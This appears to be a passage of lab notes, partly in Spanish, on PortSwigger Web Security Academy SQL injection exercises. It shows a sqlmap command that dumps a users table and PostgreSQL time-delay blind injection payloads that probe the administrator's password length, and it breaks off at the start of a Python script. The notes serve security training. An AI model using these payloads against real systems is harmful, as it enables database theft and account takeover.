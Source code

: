 ![[Pasted image 20230213002028.png]]

con SQLMap tambien se puede obtener la informacion:

```bash
sqlmap 'https://0ad9007504cf9510c185dab5006f00d2.web-security-academy.net/' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: es-ES,es;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: TrackingId=FNun87616K6eRHFA*; session=gD5ZAWUUxcICiQao7t2sPLS9LyThB7VN' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: none' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --compressed --dbms=oracle --level=5 --risk=3 --random-agent -T users --dump
```

![[Pasted image 20230213002122.png]]

#### Blind SQL injection with time delays and information retrieval (Postgres)

- [Postgresql Time Blind Payloadallthething](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-blind)

PoC:

```bash
' and PG_SLEEP(10)--
' or PG_SLEEP(10)--
' and 'a'=(SELECT 'a' FROM PG_SLEEP(10))--
' or 'a'=(SELECT 'a' FROM PG_SLEEP(10))--
'%3b(select 1 from pg_sleep(7))--                  #%3B = ;
```

retrive information:

```bash
'%3b(select case when (length(password)=20) then pg_sleep(7) else pg_sleep(0) end from users where username='administrator')-- -

'||(select case when (length(password)=20) then pg_sleep(7) else pg_sleep(0) end from users where username='administrator')-- -
```

**lognitud de contraseña**

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

#funcion para contral Ctrl+C
def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
#ctr+c
signal.signal(signal.SIGINT, def_handler)

```